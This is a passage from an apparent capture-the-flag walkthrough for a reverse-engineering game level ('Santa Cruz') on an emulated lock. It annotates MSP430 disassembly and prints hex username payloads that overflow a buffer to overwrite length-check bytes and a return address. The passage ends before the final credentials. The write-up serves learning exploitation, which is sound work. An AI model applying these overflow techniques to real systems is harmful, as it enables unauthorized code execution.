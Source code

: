 The lock opens!

## Santa Cruz
Wow, lot's of code. Asks us to ender password and username. Obesrvation: there is a length checking loop.

```
45d0:  0f4b           mov	r11, r15
45d2:  0e44           mov	r4, r14
45d4:  3e50 e8ff      add	#0xffe8, r14 o ; -24
45d8:  1e53           inc	r14 ; we are incrementing counter
45da:  ce93 0000      tst.b	0x0(r14) ; and testing if we've met a null byte here
45de:  fc23           jnz	$-0x6 <login+0x88>
45e0:  0b4e           mov	r14, r11
45e2:  0b8f           sub	r15, r11
45e4:  5f44 e8ff      mov.b	-0x18(r4), r15; -0x18(r4) stores 16 (dec)
45e8:  8f11           sxt	r15
45ea:  0b9f           cmp	r15, r11 ; comparing length here
```

```
45e4:  5f44 e8ff      mov.b	-0x18(r4), r15
```

This is local var for minimum password length located at abs address 0x43b4. There is similar check that checks previous byte for minimum length:

```
45fa:  5f44 e7ff      mov.b	-0x19(r4), r15
```

We can craft a username payload to overwrite this

```
414141414141414141414141414141414108101041414141414141414141414141414141414141413a46
414141414141414141414141414141414108101042424242424242424242424242424242424242423a46
4141414141414141414141414141414141081010
```

The return address of SP in `login` function is at 0x43c0. 

There are two instructions that make some comparison at the end of the function

```
464c:  c493 faff      tst.b	-0x6(r4)
4650:  0624           jz	$+0xe <login+0x10e>
```

We place this 00 in memory right at the start of the function

```
455c:  c443 faff      mov.b	#0x0, -0x6(r4)
```

We need this test to pass. Adding zeroes before our address won't work due to strcpy. There is one new door that has opened for us. Since we now control length checks, we can overflow the password too!
We can choose the password length that we need, then set 00 at the correct address to bypass the last check.
After a lot of trial and error, I came with the correct username and password:

